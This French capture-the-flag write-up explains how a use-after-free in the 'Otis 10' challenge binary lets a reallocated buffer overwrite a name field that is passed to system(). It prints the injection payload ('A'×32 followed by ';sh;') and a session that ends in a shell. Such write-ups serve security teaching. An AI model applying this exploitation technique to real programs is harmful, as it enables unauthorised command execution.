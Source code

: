 # pwn - Otis 10

On remarque l'utilisation des fonctions `system` et `popen`
qui permettent d'exécuter des commandes systèmes.
Les appels à `popen` ont toujours une chaîne de caractères
constante en paramètres. En revanche, l'argument passé à
`system` est construit à partir de `creature->name` ; en
contrôlant `creature->name` il devient possible d'exécuter des
commandes arbitraires.

L'appel à `system` est contenu dans la fonction `roaaar`.

```c
void roaaar(creature_t *creature) {
    // you may need to install cowsay for this to work
    char cmd[256] = "echo 'Roarrr !' | /usr/games/cowsay -f ";
    strlcat(cmd, creature->name, sizeof(cmd));
    system(cmd);
}
```

## Vulnérabilité

Le menu présente plusieurs options :
```
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
```

Parmi ces options, "Se retransformer en vache" contient une
vulnérabilité. Voici son code :
```c
case 'v':
    free(creature);
    break;
```

En effet, après avoir appelé `free(creature)` le pointeur
`creature` n'est pas remis à NULL, il est toujours utilisable,
notamment par la fonction `roaaar`. Il y a donc un
use-after-free.

Maintenant que la zone mémoire pointée par `creature` est
libéré, il est possible d'allouer de la donnée contrôlée au
même endroit et par conséquent maîtriser le contenu de
`creature->name`.

```c
typedef struct {
    char msg[32];
    char name[64];
} creature_t;
```

La fonction `moo` alloue un buffer de 96 octets pour contenir
l'entrée utilisateur. Le type `creature_t` fait également 96
octets. L'allocation du buffer dans `moo` peut donc se faire
au même emplacement mémoire que l'objet `creature`
précédemment libéré.

Le schéma suivant décrit les étapes nécessaires pour contrôler
`creature->cmd`.

![Schéma de la mémoire](assets/memory.png)

Lors de l'appel à `moo`, il faut envoyer 32 "A", qui viendront
remplir le champ `creature_t.msg`, puis la commande à
exécuter.

Il reste à appeler `roaaar` pour que la commande s'exécute.

```
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> n
Vous vous transformez en daemon.cow

=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> v
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> m
Message : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;sh;
 ______________________________________
< AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;sh; >
 --------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> r
cowsay: Could not find  cowfile!
$ ls -la
total 28
drwxr-xr-x 1 root root    16 Feb 25 21:56 .
drwxr-xr-x 1 root root     0 Feb 25 21:56 ..
-r-xr-xr-x 1 root root 20720 Feb 25 21:47 challenge
-r--r--r-- 1 root root    39 Feb 25 21:41 flag.txt
```
